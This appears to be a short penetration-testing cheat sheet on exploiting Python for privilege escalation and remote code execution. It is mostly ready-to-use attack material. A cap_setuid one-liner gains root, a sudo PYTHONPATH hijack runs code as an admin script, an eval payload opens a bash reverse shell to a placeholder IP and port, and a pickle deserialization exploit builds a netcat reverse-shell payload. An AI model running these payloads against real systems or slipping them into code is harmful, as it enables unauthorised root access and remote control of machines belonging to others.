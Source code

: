 # python2 python3

* [https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)
* [https://medium.com/@abdelazimmohmmed/python-input-vulnerability-30b0bfea22c9](https://medium.com/@abdelazimmohmmed/python-input-vulnerability-30b0bfea22c9)

## Capability: cap_setuid

```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("whoami;id;uname -a")'
```

## Capability: SETENV (allows to set env_var)

```
# admin_tasks uses a py module
# create it and specify path to run code
sudo PYTHONPATH=/tmp/py/ /opt/scripts/admin_tasks.sh
```

## eval

```python
__import__('os').system('bash -i >& /dev/tcp/IP/PORT 0>&1')#
```

## Pickle Serializing and de-serializing Python object structures,

```python
- Start listener using nc -lvnp 4444
- Run this on target system to get back shell

import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat IP PORT > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```
